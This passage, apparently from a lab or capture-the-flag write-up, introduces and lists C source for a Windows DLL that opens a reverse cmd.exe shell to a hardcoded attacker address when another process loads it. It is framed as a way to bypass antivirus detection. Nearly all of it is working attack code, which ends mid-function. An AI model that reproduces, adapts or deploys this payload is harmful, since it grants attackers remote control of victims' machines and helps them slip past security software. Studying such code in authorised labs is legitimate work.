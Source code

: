 Just for fun, can the shell payload bypass more AV detections? Try packaging the payload into a DLL to run the reverse shell when loaded by another process:

```c
/* Win32 TCP reverse cmd.exe shell
 * References:
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-sockaddr_in
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-inet_addr
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-htons
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
 * https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366877(v=vs.85)
 */
#define WIN32_LEAN_AND_MEAN

#include <string.h>
#include <windows.h>
#include <winsock2.h>

#pragma comment(lib, "ws2_32.lib")

#define TARGET_IP   "10.10.14.17"
#define TARGET_PORT 6969

DWORD WINAPI run(void) {
  int i;
  SOCKET s;
  WSADATA wsa;
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;

  WSAStartup(MAKEWORD(2,2), &wsa);
  s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(TARGET_IP);
  sa.sin_port = htons(TARGET_PORT);
  WSAConnect(s, (struct sockaddr *)&sa, sizeof(sa), NULL, NULL, NULL, NULL);
  SecureZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = STARTF_USESTDHANDLES;
  si.hStdInput = (HANDLE)s;
  si.hStdOutput = (HANDLE)s;
  si.hStdError = (HANDLE)s;
  CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
  return 0;
}

__declspec(dllexport)
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
  switch (dwReason) {
    case DLL_PROCESS_ATTACH:
      CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)run, NULL, 0, NULL);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
```
